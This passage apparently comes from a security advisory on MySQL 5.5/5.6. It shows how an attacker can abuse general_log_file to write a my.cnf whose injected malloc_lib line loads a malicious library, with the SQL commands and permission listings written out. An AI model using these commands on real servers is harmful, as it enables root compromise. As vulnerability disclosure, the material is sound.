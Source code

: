 ----------[ eof ]---------------

on MySQL versions in branches 5.5 and 5.6.
The datadir location for my.cnf has only been removed from MySQL starting
from 5.7 branch however in many configurations it will still load config
from:

/var/lib/mysql/.my.cnf

The data directory /var/lib/mysql is (obviously) writable by mysql user on
every install:

root@debian:~# ls -ld /var/lib/mysql/
drwx------ 4 mysql mysql 4096 Jul 28 06:41 /var/lib/mysql/

Therefore, if no mysql-owned configs are available on the system, an attacker 
could still be able to exploit the vulnerability by creating a config at the
following locations:

/var/lib/mysql/my.cnf 
/var/lib/mysql/.my.cnf 

As mentioned, using FILE permission to create such a file with the SQL statement:

SELECT 'malicious config entry' INTO OUTFILE '/var/lib/mysql/my.cnf'

would not work, as MySQL creates files with rw permissions for the world:

-rw-rw-rw- 1 mysql mysql 4 Jul 28 07:46 /var/lib/mysql/my.cnf

and MySQL would prevent such world-writable config from being loaded at startup.

Attackers could bypass this however by using these logging SQL statements:

mysql> set global general_log_file = '/var/lib/mysql/my.cnf';
mysql> set global general_log = on;
mysql> select '
    '> 
    '> ; injected config entry
    '> 
    '> [mysqld]
    '> malloc_lib=/var/lib/mysql/mysql_hookandroot_lib.so
    '> 
    '> [separator]
    '> 
    '> ';
1 row in set (0.00 sec)
mysql> set global general_log = off;

The queries will create the my.cnf file with the necessary permissions 
(without o-w bit) for it to be parsed by the MySQL daemon:

# ls -l /var/lib/mysql/my.cnf 
-rw-rw---- 1 mysql mysql 352 Jul 28 17:48 /var/lib/mysql/my.cnf

The file will have the following contents:
